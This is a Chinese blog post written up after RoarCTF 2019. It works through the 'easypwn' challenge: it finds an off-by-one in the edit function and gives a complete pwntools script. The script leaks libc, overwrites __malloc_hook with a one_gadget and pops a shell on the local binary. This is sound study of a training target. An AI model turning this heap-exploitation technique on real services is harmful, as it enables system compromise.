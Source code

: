 ```yaml
---
title: 19RoarCTF记录
author: nepire
avatar: /images/title.ico
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 12:31:01
tags:
keywords:
description:
photos: /images/cover/8.png
---
```

比赛时正好遇上作业一大堆，粗略的看了一题就去赶作业了，赛后还是来重新看一遍题目




# easypwn
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
防护全开
反编译看一下

![图片](jj7Vi0RS28Mu5Vdp.png)

标准菜单框架

然后又是愉快的逆结构体时间

这里就省略分析过程

```
struct note
{
  int inuse;
  int size;
  char *content;
}
```
![图片](3lJTRVXx9hkjDAhf.png)

![图片](ohsQTbMsvZEwjrbO.png)

我们可以看到create的功能只初始化了新chunk，并未往content写东西

然后简单审计过后就能发现有个很僵硬的漏洞

![图片](mnrLbOp5t5EMBjwY.png)

在往chunk_content内写东西时的size是cmp_min的返回值，而问题就出在cmp_min里

![图片](BDqW1RPx5HIeSvgl.png)这里僵硬在于这个额外多出的if，本来猜测可能是想输入的size是带'\n'的但发现这也不对就hen尬

总结下现在得到的可利用点

1.最大可创建size=0x100的chunk

2.edit存在offbyone漏洞

3.菜单选择用的scanf

那么先尝试利用off by one泄露出libc

![图片](3oLNBqRr7Scnt8ZZ.png)


这里有个细节是它没有用malloc创建堆而是calloc，但没必要去纠结，因为触发malloc_hook的不是这里的malloc

![图片](gzXbIS07Uy4a3463.png)


接着就是很直接的，uaf改fd到malloc_hook后把malloc_hook改成one_gadget再用doublefree报错里的malloc触发getshell

```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./easy_pwn')
elf = ELF('./easy_pwn')
libc = elf.libc
def choice(idx):
	n.recvuntil('choice: ')
	n.sendline(str(idx))


def new(size):
	choice(1)
	n.recvuntil('size: ')
	n.sendline(str(size))


def write(idx,size,content):
	choice(2)
	n.recvuntil('index: ')
	n.sendline(str(idx))
	n.recvuntil('size: ')
	n.sendline(str(size))
	n.recvuntil('content:')
	n.send(content)


def free(idx):
	choice(3)
	n.recvuntil('index: ')
	n.sendline(str(idx))


def show(idx):
	choice(4)
	n.recvuntil('index: ')
	n.sendline(str(idx))


new(0x18)#0
new(0x18)#1
new(0x68)#2
new(0x10)#3
write(0,0x18+10,'a'*0x18+'\x91')
#gdb.attach(n)
free(1)
new(0x18)#1|2
show(2)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c4b78
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase +0xf02a4 
#gdb.attach(n)
free(1)
new(0x68)
free(2)
write(1,0x8,p64(malloc_hook-0x18+5))
new(0x68)
new(0x68)
write(4,0x10+3,'aaa'+p64(one_gadget)*2)
free(2)
free(1)
n.interactive()
```
continue……
